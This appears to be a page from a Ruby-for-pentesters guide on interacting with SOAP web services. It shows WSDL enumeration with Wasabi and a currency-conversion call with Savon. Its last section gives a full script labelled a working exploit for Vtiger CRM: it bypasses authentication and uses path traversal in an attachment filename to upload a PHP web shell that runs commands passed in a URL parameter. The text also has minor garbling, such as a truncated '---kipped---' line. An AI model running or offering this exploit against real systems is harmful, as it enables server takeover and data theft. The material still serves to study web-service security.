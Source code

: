 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install wasabi savon httpclient 
```

#### Enumeration

```ruby
require 'wasabi'

url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"

document = Wasabi.document url

# Parsing the document 
document.parser

# SOAP XML
document.xml

# Getting the endpoint 
document.endpoint

# Getting the target namespace
document.namespace

# Enumerate all the SOAP operations/actions
document.operations

# Enumerate input parameters for particular operation
document.operation_input_parameters :conversion_rate
```

Results

```ruby
>> url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
=> "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
>> document = Wasabi.document url
=> #<Wasabi::Document:0x00000002c79a50 @adapter=nil, @document="http://www.webservicex.net/CurrencyConvertor.asmx?WSDL">
>> # Parsing the document 
>> document.parser
=> #<Wasabi::Parser:0x0000000281ebb8
 @deferred_types=[],
 @document=
  #(Document:0x140fa3c {
    name = "document",
    children = [
      #(Element:0x140f294 {
        name = "definitions",
        namespace = #(Namespace:0x14017e8 { prefix = "wsdl", href = "http://schemas.xmlsoap.org/wsdl/" }),
        attributes = [ #(Attr:0x1a507d4 { name = "targetNamespace", value = "http://www.webserviceX.NET/" })],
        children = [
          #(Text "\n  "),
---kipped---
>> # Getting the endpoint 
>> document.endpoint
=> #<URI::HTTP http://www.webservicex.net/CurrencyConvertor.asmx>
>> # Getting the target namespace
>> document.namespace
=> "http://www.webserviceX.NET/"
>> # Enumerate all the SOAP operations/actions
>> document.operations
=> {:conversion_rate=>
  {:action=>"http://www.webserviceX.NET/ConversionRate",
   :input=>"ConversionRate",
   :output=>"ConversionRateResponse",
   :namespace_identifier=>"tns",
   :parameters=>{:FromCurrency=>{:name=>"FromCurrency", :type=>"Currency"}, :ToCurrency=>{:name=>"ToCurrency", :type=>"Currency"}}}}
>> # Enumerate input parameters for particular operation
>> document.operation_input_parameters :conversion_rate
=> {:FromCurrency=>{:name=>"FromCurrency", :type=>"Currency"}, :ToCurrency=>{:name=>"ToCurrency", :type=>"Currency"}}
```

#### Interaction 

```ruby
require 'savon'

url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
client = Savon.client(wsdl: url)

message = {'FromCurrency' => 'EUR', 'ToCurrency' => 'CAD'}
response = client.call(:conversion_rate, message: message).body

response[:conversion_rate_response][:conversion_rate_result]
```

Results

```ruby
>> message = {'FromCurrency' => 'EUR', 'ToCurrency' => 'CAD'}
=> {"FromCurrency"=>"EUR", "ToCurrency"=>"CAD"}
>> response = client.call(:conversion_rate, message: message).body
=> {:conversion_rate_response=>{:conversion_rate_result=>"1.4417", :@xmlns=>"http://www.webserviceX.NET/"}}

1.4415
```


#### Hacking via SOAP vulnerabilities 

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```
More about [Savon][1]





document.parser.document.element_children.children[1].children[1].children[3].children[1].children[1].attributes.values[0].to_s




<br><br><br>
---
[1]: http://savonrb.com/

